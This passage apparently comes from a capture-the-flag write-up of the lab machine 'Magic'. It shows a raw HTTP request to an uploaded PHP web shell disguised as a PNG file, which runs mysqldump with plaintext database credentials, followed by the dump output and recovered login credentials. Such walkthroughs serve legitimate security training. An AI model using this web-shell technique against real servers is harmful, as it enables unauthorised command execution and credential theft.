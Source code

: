         public static function disconnect()
        {
            self::$cont = null;
        }
    }
    </pre>

We can then use `mysqldump` (which is strangely present on the box) to dump the
content of all databases using the previous credentials. That give us the
credentials for the web login form: `admin:Th3s3usW4sK1ng`.

    :::text
    GET /images/uploads/simple-backdoor2.php.png?cmd=mysqldump+-piamkingtheseus+-u+theseus+--all-databases HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs


    HTTP/1.1 200 OK
    Date: Wed, 22 Apr 2020 12:31:35 GMT
    Server: Apache/2.4.29 (Ubuntu)
    Vary: Accept-Encoding
    Content-Length: 2201
    Connection: close
    Content-Type: text/html; charset=UTF-8

    <89>PNG
    ^Z

    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
    --
    -- Host: localhost    Database:
    -- ------------------------------------------------------
    -- Server version	5.7.29-0ubuntu0.18.04.1

    /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
    /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
    /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
    /*!40101 SET NAMES utf8 */;
    /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
    /*!40103 SET TIME_ZONE='+00:00' */;
    /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
    /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
    /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
    /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

    --
    -- Current Database: `Magic`
    --

    CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

    USE `Magic`;
